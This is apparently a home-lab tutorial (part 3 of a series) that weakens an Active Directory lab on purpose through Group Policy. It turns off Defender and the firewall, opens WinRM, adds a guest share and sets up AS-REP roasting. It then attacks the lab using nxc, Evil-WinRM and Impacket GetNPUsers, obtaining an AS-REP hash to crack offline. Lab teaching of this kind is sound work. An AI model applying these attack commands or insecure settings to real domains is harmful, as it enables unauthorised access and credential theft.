Active Directory Home Lab with Proxmox - Part 3

We are now going to add some simple misconfigurations to our AD Lab. In the final section we will verify them by targeting our network from an outside Linux VM. To make the Active Directory Lab vulnerable we first need to change some settings.
Group Policy Configuration
Open the Start menu and click on Windows Administrative Tools, then choose Group Policy Management. Expand Forest and Domains, to view your own domain.
Disable Windows Defender and Firewall
We can create a first GPO that will disable the Windows Defender Firewall so we can more easily experiment with attacks later on. Of course we could also disable (unlink) the policy later.
Do not do this in a real enterprise environment! You can skip this step if you don't want to make your lab vulnerable.
Right-click on the domain name. Select Create a GPO in the domain and link here. Give the GPO the name Disable Protections. Right-click on the newly added policy and choose Edit.
This will open the Group Policy Management Editor. From the sidebar go to the following folder: Computer Configuration > Policies > Administrative Templates > Windows Components > Microsoft Defender Antivirus. Select Microsoft Defender Antivirus. From the right side select Turn off Microsoft Defender Antivirus and click on Edit policy setting. Set it to Enabled. Click on Apply then OK to save the changes.

Next go to Real-time Protection and enable Turn off real-time protection.

Expand the sidebar folders to the following: Computer Configuration > Policies > Administrative Templates > Network > Network Connections > Windows Defender Firewall > Domain Profile. Disable the Windows Defender Firewall: Protect all network connections setting.

Close Group Policy Management Editor. From the sidebar of Group Policy Management right-click on Disable Protections and choose Enforced.
Enable WinRM Server
Right-click on your domain name. Select Create a GPO in the domain and link here. Give the GPO the name Enable WinRM Server. Right-click on it and choose Edit. Using the sidebar go to the following folder: Computer Configuration > Policies > Administrative Templates > Windows Components > Windows Remote Management (WinRM) > WinRM Service. Select Allow remote server management through WinRM and then click on Edit policy settings. Set the policy to Enabled and in the IPv4 filter field enter *. Click on Apply then OK.

Optionally you can enable Allow Basic authentication and Allow unencrypted traffic if you want people to perform Man-in-the-Middle attacks.
Next navigate to Computer Configuration > Preferences > Control Panel Settings. Right-click on Services and select New > Service.

Set Startup to Automatic. Use the ... button to select the service name. Select Windows Remote Management (WS-Management) and click on Select. Set the service action to Start Service.

Once again in the sidebar navigate to Computer Configuration > Policies > Administrative Templates > Windows Components > Windows Remote Shell. Select Allow Remote Shell Access and enable it.

Finally go to Computer Configuration > Policies > Security Settings > Windows Firewall with Advanced Security. Right-click Inbound Rules and create a New Rule.

Select Predefined and choose Windows Remote Management from the list (not the one with compatible). Click Next. Select the one for Domain and Private, and Allow the connection at the next screen.
You can scan port 5985 on one of your remote computers to see if it responds (it might need a restart):
PS C:\> Test-NetConnection -ComputerName MS01 -Port 5985
ComputerName : MS01
RemoteAddress : 172.16.200.11
RemotePort : 5985
InterfaceAlias : Ethernet
SourceAddress : 172.16.200.100
TcpTestSucceeded : TrueAdditional Registry Edit
I found that when applying the GPO to the domain, I was still not able to WinRM from a remote host. I found that enabling the WinRM service throught the Registry solved the issue. To do this go to Computer Configuration > Preferences > Registry. Right-click and select New > Registry Item. As the registry path select HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\WinRM\Service and set the value of the IPv4Filter to * or whatever IP range you want to include.

Adding a Public File Share
Local Share
Login as a local administator to one of your Windows VMs and navigate to Control Panel > Network and Internet > Network and Sharing Center > Change Advanced sharing settings > Guest or Public > Turn on File and Printer sharing.
Next create a new folder, Right-click and go to Properties > Sharing tab > Share and give the Everyone user read permission.

If you want to allow users to access the file share as a Guest user, then open Local Security Policy as an Administrator. Next go to Local Policies > Security Options > Accounts: Guest account status and switch it to Enabled.

In the same window go to User Rights Assignment > Deny access to this computer from the network and make sure that the Guest account is not in this list.

Enforce the Domain Policies
Right-click on the Start menu and select Windows PowerShell (Admin). In the terminal enter the following:
gpupdate /forceNow whenever a new device joins our AD environment the Group Policies that apply to all the devices will automatically be applied to them. With this, we have completed the Domain Controller setup.
Account Misconfigurations
ASREP Roasting
In older versions of Kerberos, it was possible to allow authentication without a password. Since Kerberos 5, a password is required, which is called Pre-Authentication. If an account has the option Do not require Kerberos preauthentication checked, an attacker can send any request for authentication to the KDC to retrieve an encrypted TGT that can be brute-forced offline.

Attacking our Environment
Browsing Public Shares
Lets start by checking if we can see any available shares on the network. I made one public share on the Windows VM with IP 172.16.200.11. In Part 1 of this series we added an attacker VM to the AD network as our initial entry point that is whitelisted from the firewall. From this host, we should be able to list the share we made public.
We can see one public folder called Department and look at what information is stored inside.
Evil-WinRM
To verify that we can also WinRM to our Windows VMs I created a honeypot account called winnie.wonder with the password P@ssw0rd123 and logged into MS01 with this account. By default, PowerShell Remoting (and WinRM) only allows connections from members of the Administrators or Remote Management Group. To add our user to the Built-In Remote Management Users run:
PS C:/> net localgroup "Remote Management Users" /add winnie.wonderWe can now execute the following command from a Linux host inside the network:
$ nxc winrm 172.16.200.11 -u 'winnie.wonder' -p 'P@ssw0rd123'
SMB 172.16.200.11 5985 MS01 [*] Windows 10.0 Build 19041 (name:MS01) (domain:cicada.local)
HTTP 172.16.200.11 5985 MS01 [*] http://172.16.200.11:5985/wsman
HTTP 172.16.200.11 5985 MS01 [+] cicada.local\winnie.wonder:P@ssw0rd123 (Pwn3d!)Nice! We can now run remote commands using the tool Evil-WinRM.
$ evil-winrm-docker -i 192.168.128.10 -u 'winnie.wonder' -p 'P@ssw0rd123'
Evil-WinRM shell v3.5
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winnie.wonder.CICADA\Documents> whoami
cicada\winnie.wonderASREPRoasting
Assuming we have gathered a list of valid users, we can try to perform an ASREPRoast attack on the domain users to see if any account has the Do not require Kerberos preauthentication option set. With a valid list of users, we can use Get-NPUsers.py from the Impacket toolkit to hunt for all users with Kerberos pre-authentication not required.
GetNPUsers.py CICADA.LOCAL/ -dc-ip 172.16.200.100 -no-pass -usersfile valid_users -format hashcat
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
[-] User Administrator doesnt have UF_DONT_REQUIRE_PREAUTH set
[-] User dave.hoggins doesnt have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$winnie.wonder@CICADA.LOCAL:ab15aee9c9bd66ee5a0c56e4a30395b9$d030a2c1ab87c23f4424d1cc39f2a469353a2a7fc26c451790729a23bb9658282c7349edb3d67af46072d4b0fe36f9bc71db8d6f7e21f852c809a242c050a77fb0f6c28fb8b7b79de5c4ff60dfa84dd73792f38bf886f909fa3a206c8ac8e594b64ac2c067f4162a6a8e194e4a6fc9b11f8e0d89b0ab379511b3aeab364534fd24509441c301ce1f654bc5e9bf46892418d9ffadcf3992b9493ecdbc1ad142497dcb9323ec1ffcfc72a26efee2ec07a41998bc0a9568eda93b24e84f18abe69004d43a60da7568093f1f88202c21d3abc3078e969ddde45202865ee5af4ded1be7bddffc24da7637c5a53ec2Look like we got a valid hash for the user winnie.wonder. We can crack the hashes offline using Hashcat with mode 18200 to find the password.
Conclusion
The possible attack surface in an AD environment is very large so we just introduced a few misconfigurations in our home lab. We also went over on how an outsider can find these flaws to possible gain a foothold on one of our systems. In the next part of this series we will look at how we can monitor and defend against these attacks.